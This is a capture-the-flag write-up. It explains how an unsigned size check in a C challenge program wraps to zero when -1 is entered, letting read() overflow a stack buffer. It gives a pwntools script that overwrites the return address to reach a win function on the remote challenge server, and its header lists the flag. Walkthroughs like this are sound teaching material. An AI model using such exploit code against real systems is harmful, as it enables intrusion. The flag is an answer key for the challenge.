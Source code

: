 ```yaml
---
title: "yet another bof pwn"
categories: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
points: 100
solves: 23
flag: Meta4Sec{e6b760bc7b7f2e252a2c50692c5e4ce3}
---
```


> this is bof
>
> `nc 117.53.46.98 10000`

by `rui`

---

We were given a file `dist.zip` containing `chall` and `main.c`. Thanks to the problem setter for providing the source code, so we didn’t need to open IDA Pro. By reading the source code, we can identify a buffer overflow vulnerability.

Here is the relevant part of the source code:

```c
int main(){
    char buf[MAX];
    unsigned size;
    printf("size: ");
    scanf("%u", &size);
    if (size + 1 > MAX) {
        printf("no bof pls\n");
        exit(0);
    }
    printf("data: ");
    read(0, buf, size);
    buf[strcspn(buf, "\n")] = '\0';
    return 0;
}
```

The vulnerability lies in the `size + 1` check. When we input `-1` as the size, `size + 1` becomes `0` due to integer underflow. This bypasses the check, and the program proceeds to `read(0, buf, size);` where `size` is interpreted as the maximum value of an `unsigned int`.

This allows us to exploit the program by sending input longer than `MAX`, overwriting the return address of the `main` function, and redirecting execution to the `win` function.

Here is the full exploit:

```python
from pwn import *

BINARY = './dist/chall'

context.log_level = 'debug'
context.binary = BINARY

e = ELF(BINARY)
# r = process(BINARY)
r = remote('117.53.46.98',  10000)

r.sendlineafter(b'size: ', b'-1')
r.sendline(flat([
    cyclic(256),
    cyclic(8),
    e.sym['win']
]))

r.interactive()
```
